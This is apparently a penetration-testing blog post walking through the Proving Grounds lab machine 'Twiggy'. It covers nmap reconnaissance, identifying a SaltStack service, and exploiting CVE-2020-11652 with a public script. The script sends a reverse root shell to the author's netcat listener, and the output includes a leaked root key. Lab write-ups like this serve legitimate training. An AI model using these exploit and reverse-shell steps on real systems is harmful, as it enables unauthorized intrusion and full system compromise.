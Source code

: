 ```yaml
---
date: '2024-09-06'
before : '2024-09-04'
after : '2024-09-10'
title: 'Proving Grounds : Twiggy'
categories: [ 'proving_grounds', 'pentest', 'ENG']
summary: 'Solving Twiggy machine from Proving Grounds'
thumbnail: '../contentImages/twiggy/twiggy-1.png'
---
```

## 0. Machine Info

Twiggy is a medium community-rated machine from Proving Grounds, maybe little bit harder than other easy machines but still easy enough.


> Nothing more to say, let's dive into the machine!


## 1. Recon

Starting with nmap scan

```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -T4 -p- -v 
\Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:20 EDT
Initiating Ping Scan at 02:20
SYN Stealth Scan Timing: About 51.50% done; ETC: 02:22 (0:00:57 remaining)
Completed SYN Stealth Scan at 02:22, 94.33s elapsed (65535 total ports)
Nmap scan report for 192.168.135.62
Host is up (0.050s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 94.48 seconds
           Raw packets sent: 131137 (5.770MB) | Rcvd: 376 (67.394KB)

```
- Port 22
```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -p22 -A -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:33 EDT
Nmap scan report for 192.168.135.62
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X|5.X (91%), Crestron 2-Series (86%), HP embedded (85%), Oracle VM Server 3.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:3.13 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5.1 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:oracle:vm_server:3.4.2 cpe:/o:linux:linux_kernel:4.1
Aggressive OS guesses: Linux 3.13 (91%), Linux 3.10 - 4.11 (90%), Linux 3.2 - 4.9 (90%), Linux 5.1 (90%), Linux 3.18 (88%), Crestron XPanel control system (86%), Linux 3.16 (86%), HP P2000 G3 NAS device (85%), Oracle VM Server 3.4.2 (Linux 4.1) (85%)
No exact OS matches for host (test conditions non-ideal).

```
- Port 80
```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -p80 -A -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:34 EDT
Nmap scan report for 192.168.135.62
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
```
- Port 4505, 4506, 8000
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.135.62 -p4505,4506,8000 -A -sC -sV

[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:34 EDT
Nmap scan report for 192.168.135.62
Host is up (0.025s latency).

PORT     STATE SERVICE VERSION
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).

```
So we have 2 webapps (80, 8000), DNS, zmtp and ssh. Let's start with enumeration

## 2. Enumeration

Since we don't have any domain name it will be hard to enumerate DNS. Let's start with zmtp

- zmtp service

After googling for a while, I found this:

> https://packetstormsecurity.com/files/157678/SaltStack-Salt-Master-Minion-Unauthenticated-Remote-Code-Execution.html

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit saltstack
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Saltstack 3000.1 - Remote Code Execution                                                      | multiple/remote/48421.txt
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
Let's try it later. Moving to WebApp

- Webapp 

Visiting port 8000, I found following json-format output:

![twiggy-2](../contentImages/twiggy/twiggy-1.png)

Quick google search reveals us what this is.

> https://github.com/saltstack/salt/issues/52981


- Port 80

Nothing special, just a simple website powered by 8000 maybe.


## 3. Initial Foothold / Root

So I found only one CVE which could be useful, and somehow port 8000 and 80 is pointing to zmtp salt, which is a strong evidence that we should try this out.


At least, we found same keyword "salt" from both services. This is CVE-2020-11652

So let's dig deeper!

I downloaded Following Script:

```
┌──(hosan㉿kali)-[~/pg/twiggy/CVE-2020-11652]
└─$ python3 CVE-2020-11652.py --master 192.168.135.62 --port 4506 -lh 192.168.45.175 -lp 80 --exec-choose master
/home/hosan/.local/lib/python3.11/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.135.62:4506) status... 
[+] Read root_key... root key: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
Got response for attempting master shell: {'jid': '20240906074412689156', 'tag': 'salt/run/20240906074412689156'}. Looks promising!
Got response for attempting master shell: {'jid': '20240906074412729080', 'tag': 'salt/run/20240906074412729080'}. Looks promising!

```
Error popped up, but I still got root shell.

```
┌──(hosan㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.175] from (UNKNOWN) [192.168.135.62] 55068
bash: no job control in this shell
[root@twiggy root]# 
```

## 4. Review

There are several things I learned:

1. Avoid using msfconsole.
2. Try various exploits from github with various options.
    -> For this, you will need to understand roughly what this exploit does 
4. Don't get frustrated!

---
## 5. Source

- Proving Grounds
- Me!